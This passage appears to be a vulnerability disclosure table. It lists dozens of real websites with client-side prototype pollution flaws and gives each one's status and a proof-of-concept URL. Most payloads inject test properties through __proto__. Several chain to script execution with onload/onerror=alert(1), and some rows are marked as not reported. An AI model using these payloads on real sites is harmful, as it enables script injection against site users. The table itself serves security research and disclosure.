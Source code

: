 |contentharmony.com|235235|URL|-|Reported|`https://contentharmony.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|controleng.com|88153|URL|-|Reported|`https://controleng.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|convenii.com|475785|URL search|-|Reported|`https://m.convenii.com/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv#enp_mbris`
|convertica.org|864140|URL search|-|Reported|`https://convertica.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|conveyor.com|772834|URL search|, Cookie-M, URL-M|Reported|`https://conveyor.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cool-answers.ru|632551|URL search|, Cookie-M|Reported|`https://cool-answers.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|coolessay.net|576965|URL|-|Reported|`https://coolessay.net/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|coolotvet.ru|563168|URL search|-|Reported|`https://coolotvet.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cooptravel.co.uk|748472|URL search|, Cookie-M|Reported|`https://cooptravel.co.uk/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|copanational.org|476613|URL|-|Reported|`https://copanational.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|copper.com|10366|URL search|, Cookie-M, URL-M|Reported|`https://www.copper.com/contact/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|copywritingsecrets.com|511141|URL search|, URL-M|Reported|`https://copywritingsecrets.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cority.com|214239|URL search|-|Not|`https://www.cority.com/quality-cloud/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|cornelsen.de|41750|URL search|-|Reported|`https://www.cornelsen.de/erwachsenenbildung/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|corvettemike.com|995646|URL search|-|Reported|`https://corvettemike.com/corvette_mike_press/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|coschedule.com|5738|URL search|, URL-M|Not|`https://coschedule.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cosmetic-love.com|400400|URL search|-|Fixed|`https://cosmetic-love.com/collections/skins-boni/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|cosmeticsandtoiletries.com|181895|URL search|, URL-M|Reported|`https://cosmeticsandtoiletries.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cosmictherap.com|662410|URL search|, Cookie-M|Reported|`https://cosmictherap.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cosrx.co.kr|128843|URL search|, Cookie-M|Reported|`https://cosrx.co.kr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|couo.ru|658705|URL search|, Cookie-M|Reported|`https://couo.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|couponcabin.com|13039|URL|, URL-M|Reported|`https://couponcabin.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|cpumedics.com|840034|URL search|, URL-M|Reported|`https://cpumedics.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|craigframes.com|397313|URL search|-|Reported|`https://craigframes.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|crast.ru|918158|URL search|, Cookie-M|Reported|`https://crast.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|crateandbarrel.ca|188306|URL search|, Cookie-M, URL-M|Not|`https://crateandbarrel.ca/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|crateandbarrel.com|4903|URL search|, Cookie-M, URL-M|Not|`https://crateandbarrel.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|crdl.io|382642|URL search|, URL-M|Reported|`https://crdl.io/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|creativebeartech.com|46340|URL|-|Reported|`https://creativebeartech.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|creaturecomfortsbeer.com|527250|URL search|-|Reported|`https://creaturecomfortsbeer.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|credit.fr|477631|URL|-|Reported|`https://credit.fr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|creditkey.com|625031|URL search|, Cookie-M, URL-M|Reported|`https://creditkey.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|credosystemz.com|331694|URL search|-|Reported|`https://www.credosystemz.com/courses/sybase-training/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|crm-onebox.com|546226|URL|-|Reported|`https://crm-onebox.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`

